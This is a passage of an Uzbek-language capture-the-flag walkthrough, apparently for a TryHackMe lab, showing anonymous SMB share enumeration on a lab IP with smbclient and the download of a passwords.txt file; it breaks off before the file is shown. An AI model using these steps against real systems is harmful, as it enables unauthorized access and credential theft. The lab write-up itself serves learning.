 //10.10.158.109 — bu esa nishon

```
╭─mete   󰉖 ~
╰─ ❯❯ smbclient -L //10.10.158.109 -N
Can't load /etc/samba/smb.conf - run testparm to debug it

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nt4wrksv        Disk      
SMB1 disabled -- no workgroup available
```

nt4wrksv -- Bu hech qanday xizmat emas. Unda qiziqarli fayllar bo'lishi mumkin.

Endisa esa ushbu **sharename**ni sinab ko'ramiz.

Buyruq:

````
smbclient //10.10.158.109/nt4wrksv -N
````

Tushuntirish:

-N — avval ham aytib o'tilganidek, parolsiz kirishga harakat qilib ko'radi.

```
╭─mete   󰉖 ~/THM/THM-LABS/0106-2025
╰─ ❯❯ smbclient //10.10.158.109/nt4wrksv -N
Can't load /etc/samba/smb.conf - run testparm to debug it
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jul 26 02:46:04 2020
  ..                                  D        0  Sun Jul 26 02:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 20:15:33 2020

		7735807 blocks of size 4096. 5137522 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> exit

╭─mete   󰉖 ~/THM/THM-LABS/0106-2025
╰─ ❯❯ ls
 passwords.txt
```

Kirganimdan so'ng **ls** buyrug'i orqali fayl/papkalar ro'yxatini ko'rdim. 

**passwords.txt** qiziq....

keyin esa shu faylni **get** buyrug'i orqali yuklab oldim.

Endi esa yuklangan faylni ekranga chiqaramiz, **cat** buyrug'i orqali:
